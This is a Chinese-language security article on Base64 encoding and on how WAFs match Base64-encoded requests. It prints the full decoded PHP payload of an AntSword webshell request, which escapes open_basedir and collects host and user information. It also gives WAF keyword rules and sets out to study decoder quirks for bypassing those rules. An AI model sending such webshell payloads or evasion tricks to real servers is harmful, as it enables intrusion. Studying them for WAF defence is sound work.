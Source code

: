Base64编码
--------

简单来说Base64编码，就是简单的3换4，将3个char共24bit，分成4个部分，每个部分6个bit，所以总共可以标识0-63共64个数，然后重新进行编码，由于当存在不足3个char时，是无法组成24个bit的，所以最后会使用`=`作为padding进行补充，标准的base64编码字母标为

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-5f21f814799184e127d855668dd605420fb28a53.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-5f21f814799184e127d855668dd605420fb28a53.png)

WAF拦截机制
-------

由于目前大部分waf还是基于规则进行拦截的，其中一部分waf没有实现对请求数据的处理，比如遇到base64编码的数据，并不会解码，而是直接拿base64编码的数据和规则进行匹配。如果waf实现了对base64解码的处理，那么遇到base64编码直接进行解码，就可以拿解码后的数据与规则进行匹配，这样能够节省规则的编写。这里为了能更好理解，简单使用waf拦截蚁剑Webshell的base64-php版本请求进行举例

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-15c635f9a5f25d0680c9befe0ff5f60324f53bcd.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-15c635f9a5f25d0680c9befe0ff5f60324f53bcd.png)

首先拦截这种请求，如果规则中有base64\_decode函数等关键字，是肯定能够拦截的。由于本文主要探讨如何绕过base64编码，所以这里主要看如何让waf拦截这个经过base64编码的参数。解码下这个参数值

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$oparr=preg_split("/\\\\\\\\|\\//",$opdir);$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$tmdir=".d47b6980f578";@mkdir($tmdir);@chdir($tmdir);@ini_set("open_basedir","..");for($i=0;$i<sizeof($oparr);$i++){@chdir("..");}@ini_set("open_basedir","/");@rmdir($ocwd."/".$tmdir);};function asenc($out){return @base64_encode($out);};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "25606f"."0a6023";echo @asenc($output);echo "d00298"."01067d";}ob_start();try{$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}\t";if(substr($D,0,1)!="/"){foreach(range("C","Z")as $L)if(is_dir("{$L}:"))$R.="{$L}:";}else{$R.="/";}$R.="\t";$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";$s=($u)?$u["name"]:@get_current_user();$R.=php_uname();$R.="\t{$s}";echo $R;;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();
```

对于不支持base64编码的waf来说，可以直接选取`ini_set(`的base64编码形式`QGluaV9zZXQo`作为关键字拦截，这样这种形式的webshell请求将会被拦截。

对于支持base64编码的waf来说，可以直接使用`ini_set(`作为关键字拦截，这样当遇到base64编码数据，解码之后就会命中`ini_set(`规则。

解码器
---

Base64解码时，就是将4个base64字母，共24bit，分为3个部分，每个部分8个bit，用来代表一个字符。但是当编码后的数据不是标准的规范格式解码器会如何工作呢？

为了能够更全面的测试各种解码器的解析方式，这里选取了5种解码器

1. php: base64\_decode()
2. python: base64.b64decode()
3. go: encoding/base64.StdEncoding.DecodeString()
4. java1: java.util.Base64.getDecoder().decode()
5. java2: sun.misc.BASE64Decoder().decode(）

解析方式
----

